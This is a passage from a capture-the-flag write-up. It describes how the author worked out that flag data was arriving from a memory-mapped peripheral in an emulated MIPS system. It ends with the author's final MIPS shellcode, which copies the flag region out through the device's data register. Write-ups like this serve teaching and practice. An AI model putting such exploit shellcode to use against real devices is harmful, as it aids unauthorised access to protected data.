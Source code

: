 ```

loop:
    j       loop
```

This didn't work either. Frustrated, I ended up deciding to get some much-needed
rest, but not before sharing a thought that would save me in the morning:

![An unrealized epiphany](./images/sleep-on-it.png)

After waking up, I made the connection.
This whole time, I had been using pwntools with debug logs printing the data
it had received from the emulator. 16 bytes at a time. At a regular interval.

This was the data we were getting at each timer tick.
And we weren't getting it from UART1, we were getting it from the good old
mystery peripheral at 0xa3000020!

Replicating the logic at 0xbfc056f4, I wrote the final exploit shellcode.
This shellcode tries to copy 256 bytes from the flag device, 16 bytes at a time:

```
; Copy data like the timer handler does at 0xbfc056f4
; Wait for the CTL register to become non-1, then memcpy and write 0.
;
; s0 = memcpy       = 0xbfc04078
; s1 = UART_CTL     = 0xa3000020
; s2 = UART_DATA    = 0xa3000024
; s3 = FLAG_BEGIN   = 0xa2008000
; s4 = FLAG_END     = 0xa2008100
; s5 = #1
; s6 = src
    lui     $t0, 0xbfc0
    addiu   $s0, $t0, 0x4078
    lui     $t0, 0xa300
    addiu   $s1, $t0, 0x0020
    addiu   $s2, $t0, 0x0024
    lui     $t0, 0xa200
    addiu   $s3, $t0, 0x8000
    addiu   $s4, $t0, 0x8100
    addi    $s5, $0, 1

    addu    $s6, $s3, $zero
loop:
    lw      $t0, ($s1)
    nop
    beq     $t0, $s5, loop

    addu    $a0, $s2, $zero
    addu    $a1, $s6, $zero
    addiu   $a2, $zero, 16
    addu    $s6, $s6, $a2

    jal     $s0
    sw      $s5, ($s1)
    bne     $s6, $s4, loop

    break
```

